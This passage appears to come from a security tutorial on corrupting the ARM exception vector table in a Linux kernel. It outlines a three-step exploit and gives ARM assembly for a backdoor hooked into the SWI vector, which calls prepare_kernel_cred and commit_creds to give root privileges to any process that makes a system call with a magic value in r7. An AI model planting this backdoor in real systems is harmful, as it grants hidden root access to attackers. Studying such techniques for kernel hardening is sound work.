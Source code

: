 <center>![EVT Disassembly](/images/corrupting_arm_evt/evt_8i.png)</center>  
As expected we see a bunch of control transfer instructions but one thing we notice about them is that "closest" referenced address is *0xffff0200*. Let's take a look what is between the end of the EVT and 0xffff0200:  
<center>![EVT Inspection](/images/corrupting_arm_evt/evt_400wx.png)</center>  
It looks like nothing is there so we have around 480 bytes to store our backdoor which is more than enough.

### The Exploit
Recapitulating our exploit:  
    1. Store our backdoor at *0xffff0020*.  
    2. Overwrite the SWI exception vector with a branch to *0xffff0020*.  
    3. When a system call occurs, our backdoor will check if r7 == 0xb0000000 and if true, elevate the privileges of the calling process otherwise jump to the normal system call handler.  
Here is the backdoor's code:

```text
    ;check if magic
        cmp     r7, #0xb0000000
        bne     exit
    
    elevate:
        stmfd   sp!,{r0-r12}
    
        mov     r0, #0
        ldr     r3, =0xc0049a00     ;prepare_kernel_cred
        blx     r3
        ldr     r4, =0xc0049438     ;commit_creds
        blx     r4
    
        ldmfd   sp!, {r0-r12, pc}^  ;return to userland
    
```